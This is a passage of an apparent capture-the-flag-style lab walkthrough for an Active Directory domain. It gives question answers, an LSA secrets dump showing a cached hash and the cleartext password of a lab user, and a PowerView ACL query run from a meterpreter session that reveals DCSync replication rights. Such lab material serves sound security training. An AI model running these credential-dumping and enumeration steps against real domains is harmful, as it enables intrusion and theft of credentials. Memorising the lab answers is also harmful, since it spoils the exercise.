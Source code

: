 #### **Step 2: Identify Cleartext Credentials**
```
# Expected output includes:
INLANEFREIGHT.LOCAL/tpetty:$DCC2$10240#tpetty#685decd67a67f5b6e45a182ed076d801  # ← Hash
INLANEFREIGHT\tpetty:Sup3rS3cur3D0m@inU2eR  # ← CLEARTEXT!
```

**🎯 Answer**: `tpetty`

---

## 🔐 **Question 6: Password Extraction**

### **🎯 Task**: "Submit this user's cleartext password."

### **📋 Solution Steps:**

**From previous LSA secrets dump:**
```
INLANEFREIGHT\tpetty:Sup3rS3cur3D0m@inU2eR
```

**🎯 Answer**: `Sup3rS3cur3D0m@inU2eR`

---

## 🎯 **Question 7: Privilege Analysis**

### **🎯 Task**: "What attack can this user perform?"

### **📋 Solution Steps:**

#### **Step 1: Analyze tpetty Privileges**
```powershell
# In meterpreter PowerShell session:
Import-Module .\PowerView.ps1
$sid = Convert-NameToSid tpetty
Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```

#### **Step 2: Identify DCSync Rights**
```
# Output shows:
AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
ObjectAceType         : DS-Replication-Get-Changes
ObjectAceType         : DS-Replication-Get-Changes-All
ObjectAceType         : DS-Replication-Get-Changes-In-Filtered-Set
```
